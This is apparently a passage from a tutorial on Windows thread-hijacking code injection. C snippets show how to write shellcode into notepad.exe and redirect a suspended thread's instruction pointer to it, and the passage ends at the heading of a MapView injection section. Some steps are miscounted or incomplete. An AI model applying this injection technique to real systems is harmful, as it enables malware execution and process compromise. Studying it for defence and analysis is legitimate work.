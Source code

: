 There are four steps this approach:

1. We need a target process with atleast one threat running. 
2. We need to locate this thread in the remote process.
3. Once found we allocate and copy out shellcode into the remote process. We can use several techniques for that such as from classic technique - `VirtualAllocEx` and `WriteProcessMemory`.
4. We suspend the execution of the thread we found earlier. And change the context of the thread i.e change the instruction pointer register to point to our shellcode, so when the thread starts to execution again, it would jump to our shellcode.
5. Finally, we resume this thread. Note that in doing so, all the computation or data which thread was handling is lost after this step.

So, after injection, when shellcode completes the execution, the entire process might crash. This is becase the state of the thread is in an invalid causing the process to crash.

The below code explains the process:

1. Get a handle to the process
```c
pid = FindTarget("notepad.exe");
hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,FALSE, (DWORD) pid);
```
2. Allocate memory in the remote process and write shellcode to this memory.
```c
hThread = FindThread(pid);
pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
```
3. Suspend the execution of the target thread we found earlier.
```c
SuspendThread(hThread);	
```
4. Extract all the context related to the thread, stored on `ctx`  object.
```c
ctx.ContextFlags = CONTEXT_FULL;
```
5. Set the EIP of the thread to the shellcode address. Note  EIP and RIP based on the architecture.
```c
#ifdef _M_IX86 
	ctx.Eip = (DWORD_PTR) pRemoteCode;
#else
	ctx.Rip = (DWORD_PTR) pRemoteCode;
#endif
```
6. Set the thread context
```c
SetThreadContext(hThread, &ctx);
```
7. Resume the thread
```c
ResumeThread(hThread);	
```

# MapView Code Injection
In the previous two methods, the shellcode was copied from our process location to a remote process location. In this method, we utilise IPC ( two process share a region of memory ) where the remote process has access to our shellcode.
